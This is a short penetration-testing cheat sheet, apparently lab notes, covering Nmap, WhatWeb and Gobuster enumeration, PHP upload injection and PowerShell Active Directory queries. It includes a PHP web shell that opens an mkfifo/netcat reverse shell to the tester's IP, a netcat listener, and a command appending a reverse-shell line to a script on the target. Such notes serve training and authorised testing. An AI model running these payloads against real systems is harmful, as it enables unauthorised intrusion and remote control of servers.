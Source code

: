 #### Nmap

Enumeration/Scanning:

```bash
nmap -sS IpAddress
``` 
>[!note] Or use these flags
>```-sT``` for TCP or ```-sU``` for UDP.
  
Perform a quick scan for open ports followed by a full port scan

```bash
nmap -p0- -v -A -T4 IpAddress
```
>[!note] What does each flag do?
>```-p0-``` asks Nmap to scan every possible TCP port.
>```-v``` asks Nmap to be verbose about it.
>```-A``` enables aggressive tests such as remote OS detection, service/version detection, and the Nmap Scripting Engine (NSE).
>```-T4``` enables a more aggressive timing policy to speed up the scan.

#### Whatweb
To list the plugins supported:
```bash
./whatweb -l [target]
```

#### Gobuster
Enumerate crawl Gobuster:
```bash
gobuster dir -u 10.129.200.170/nibbleblog -w /usr/share/dirb/wordlists/common.txt
```

## PHP Injection
To check if there's php injection available. Upload a php file with this content:
```php
<?php system('id'); ?>
```

PHP website to create a [[Reverse Shell]] connection (use your box IP so the server targets your box):
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc USE.YOU.IP.ADD 9443 >/tmp/f"); ?>
```

Start listening for connections using netcat port 9443:
```bash
nc -lvnp 9443
```


To make the shell more easy to navigate using python pty:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Create an http server to share files with the target:
```bash
sudo python3 -m http.server 8080
```

To add a line at the end of a file:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.203 8443 >/tmp/f' | tee -a monitor.sh
```

## PowerShell useful commands

Check user rights and of a user on an endpoint:
```powershell
whoami /priv
```

Get group details:
```powershell
Get-ADGroup -Identity "Server Operators" -Properties *
```

Domain admins group membership:
```powershell
Get-ADGroup -Identity "Domain Admins" -Properties * | select DistinguishedName,GroupCategory,GroupScope,Name,Members
```
